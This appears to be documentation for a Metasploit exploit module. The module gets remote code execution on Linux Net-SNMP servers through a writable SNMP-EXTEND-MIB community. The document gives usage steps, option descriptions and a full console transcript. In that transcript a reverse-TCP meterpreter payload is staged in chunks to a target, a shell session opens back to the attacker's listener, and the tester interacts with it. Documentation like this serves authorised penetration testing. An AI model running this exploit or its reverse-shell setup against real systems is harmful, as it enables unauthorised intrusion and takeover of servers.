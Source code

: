 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  **FILEPATH** 
  The location to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  

  **COMMUNITY** 
  The read/write community string of the target Net-SNMP service.

  **VERSION**
  The SNMP protocol version. Accepted values are '1' or '2c'. 
  
  
  **CHUNKSIZE**
  The maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments.  
  Note that cmdstager payloads are modified to allow further escaping, so the values limits may change between cmdstager flavors.  
  Possibly related to: [https://sourceforge.net/p/net-snmp/bugs/2542/]
  **TIMEOUT** 
  Specifies the maximum time to allow SNMP to timeout.

  
## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (TCP)
    SHELL      /bin/bash        yes       Shell to call with -c argument
    SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL for incoming connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TIMEOUT    1                yes       SNMP Timeout
    URIPATH                     no        The URI to use for this exploit (default is random)
    VERSION    2c               yes       SNMP Version <1/2c> 

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run
  
  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Command Stager progress -   1.11% done (199/17924 bytes)
  [*] Command Stager progress -   2.23% done (399/17924 bytes)
  [*] Command Stager progress -   3.34% done (598/17924 bytes)
  [*] Command Stager progress -   4.45% done (797/17924 bytes)
  ... Redacted ...
  [*] Command Stager progress -  98.64% done (17681/17924 bytes)
  [*] Command Stager progress -  99.72% done (17873/17924 bytes)
  [*] Sending stage (857352 bytes) to 192.168.1.3
  [*] Meterpreter session 30 opened (192.168.1.2:4444 -> 192.168.1.3:54230) at 2018-02-14 16:52:49 +0000
  [-] Exploit failed: SNMP::RequestTimeout host 192.168.1.3 not responding
  [*] Exploit completed, but no session was created.
  msf exploit(linux/snmp/net_snmpd_rw_access) > sessions -i 30 
  [*] Starting interaction with 30...
  
  meterpreter > getuid
  Server username: uid=121, gid=129, euid=121, egid=129
  meterpreter > exit
  [*] 192.168.1.3 - Meterpreter session 30 closed.  Reason: User exit

  ```
